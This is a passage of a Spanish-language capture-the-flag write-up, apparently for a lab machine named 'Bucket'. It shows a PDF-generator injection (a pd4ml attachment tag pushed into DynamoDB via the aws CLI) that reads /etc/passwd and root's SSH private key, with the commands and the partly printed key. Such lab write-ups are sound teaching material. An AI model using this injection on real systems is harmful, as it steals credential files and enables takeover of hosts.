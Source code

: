 ```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
...
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
roy:x:1000:1000:,,,:/home/roy:/bin/bash
...
```

Perfectooooooooooooooooooo, tenemos la estructura del archivo `/etc/passwd` en nuestro resultado. Probemos a ver si el usuario `root` tiene llave privada en su `$HOME`:

```json
<pd4ml:attachment description="attached.txt" icon="PushPin">file:///root/.ssh/id_rsa</pd4ml:attachment>
```

```bash
roy@bucket:/var/www/bucket-app/files$ aws --endpoint-url=http://localhost:4566 dynamodb put-item --table-name alerts \
--item '{"title": {"S": "Ransomware"}, "data": {"S": "<pd4ml:attachment description=\"attached.txt\" icon=\"PushPin\">file:///root/.ssh/id_rsa</pd4ml:attachment>"}}'
{
    "ConsumedCapacity": {
        "TableName": "alerts",
        "CapacityUnits": 1.0
    }
}
```

```bash
roy@bucket:/var/www/bucket-app/files$ curl -X POST --data "action=get_alerts" http://localhost:8000/index.php
roy@bucket:/var/www/bucket-app/files$ cat result.pdf 
%PDF-1.4
%
1 0 obj
% [24] 
<<
/Filter /FlateDecode
/Length 397
>>
stream
...
/Length 2602
/Params 5 0 R
>>
stream
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAx6VphKMyxurjldmb6dy1OSn0D9dumFAUCeSoICwhhsq+fadx21SU
bQr/unofKrmgNMAhjmrHCiMapmDw1dcyj4PSPtwo6IvrV0Guyu34Law1Eav9sV1hgzDLm8
9tAB7fh2JN8OB/4dt0sWxHxzWfCmHF5DBWSlxdk+K4H2vJ+eTA2FxT2teLPmJd7G9mvanh
1VtctpCOi6+CMcv1IMvdFtBLbieffTAOF1rSJds4m00MpqqwDiQdgN5ghcOubTXi3cbjz9
uCTBtXO2dcLfHAqhqYSa7eM0x5pwX54Hr9SP0qJp5y0ueraiOdoSJD5SmgBfIfCzUDZAMn
de3YGZ0Q4a86BVgsD2Vl54+9hoLOYMsiV9g4S76+PmBiuwi/Wrxtoyzr3/htJVmCpm+WfO
r4QQZyCFAVo21sLfIqMcPBqlur5FvrWtUUCA0usfx/j40V/l5WAIioIOX0XmX0kll1f6P7
1+d/BXAQNvyt/aOennafgvzsj23w5m4sOTBNOgBlAAAFiC6rIUsuqyFLAAAAB3NzaC1yc2
EAAAGBAMelaYSjMsbq45XZm+nctTkp9A/XbphQFAnkqCAsIYbKvn2ncdtUlG0K/7p6Hyq5
oDTAIY5qxwojGqZg8NXXMo+D0j7cKOiL61dBrsrt+C2sNRGr/bFdYYMwy5vPbQAe34diTf
Dgf+HbdLFsR8c1nwphxeQwVkpcXZPiuB9ryfnkwNhcU9rXiz5iXexvZr2p4dVbXLaQjouv
gjHL9SDL3RbQS24nn30wDhda0iXbOJtNDKaqsA4kHYDeYIXDrm014t3G48/bgkwbVztnXC
...
```